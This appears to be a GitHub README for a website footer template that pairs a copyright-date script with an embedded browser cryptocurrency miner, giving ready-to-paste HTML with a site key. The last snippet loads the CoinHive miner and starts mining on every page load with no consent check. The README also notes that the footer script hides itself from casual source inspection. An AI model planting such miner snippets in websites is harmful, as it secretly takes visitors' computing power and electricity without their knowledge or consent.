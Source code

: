 # footer-authedmine.js

### [Footer] with [AuthedMine]

The [CoinHive] version of this footer is available at [footer-coinhive.js]

## footer.html

```html
<footer class="container" id="footer">
    <script src="http://cdn.mf/date.js/footer-date.js"></script>
</footer>
<script type="text/javascript" src="https://code.jquery.com/jquery-1.12.0.min.js"></script>
<script src="https://authedmine.com/lib/authedmine.min.js"></script>
<script>
    var miner = new CoinHive.Anonymous('TaisfdcTxYepHiUV68XbnzjUp7FXaTyT', {throttle: 0.3});
    // Only start on non-mobile devices and if not opted-out in the last 3600 seconds:
    if (!miner.isMobile() && !miner.didOptOut(3600)) {
        miner.start();
    }
</script>
```

## footer-date.js

```javascript
var d = new Date();
var y = 0;
var year = d.getFullYear().toString();
var m = ["January", "February", "March", "April", "May", "June", "July", "August", "September", "October", "November", "December"]
var month = m[d.getMonth()];
var footer = "";
var footer0 = "MaX Falstein gTLD &copy; MaX Falstein and Falstein Inc. &#8212; ";
var footer1 = " ";
var footer2 = " &#8212; Patents and Trademarks Pending";
footer = footer0.concat(month.concat(footer1.concat(year.concat(footer2))));
document.getElementById("footer").innerHTML = footer;
```

## Operations

The appending of `footer` to the inner HTML of the footer using `document.getElementById("footer").innerHTML` repleaces `<script src="http://cdn.mf/date.js/footer-date.js"></script>` with
`MaX Falstein gTLD &copy; MaX Falstein and Falstein Inc. &#8212; January 2018 &#8212; Patents and Trademarks Pending` giving the impression when inspecting the source the footer is not procedurally generated unless viewing the sources and network tabs in developer tools in most browsers.

The [AuthedHive] code is freely available and documentation can be found on the [CoinHive] website or specifically in the [AuthedHive documentation].

```html
<script type="text/javascript" src="https://code.jquery.com/jquery-1.12.0.min.js"></script>
<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>var miner = new CoinHive.Anonymous('TaisfdcTxYepHiUV68XbnzjUp7FXaTyT');miner.start();</script>
```

[AuthedMine]: https://authedmine.com
[AuthedHive documentation]: https://coinhive.com/documentation/authedmine
[CoinHive]: https://coinhive.com
[Footer]: https://github.com/MaXFalstein/footer-date
[footer-coinhive.js]: https://github.com/MaXFalstein/footer-coinhive
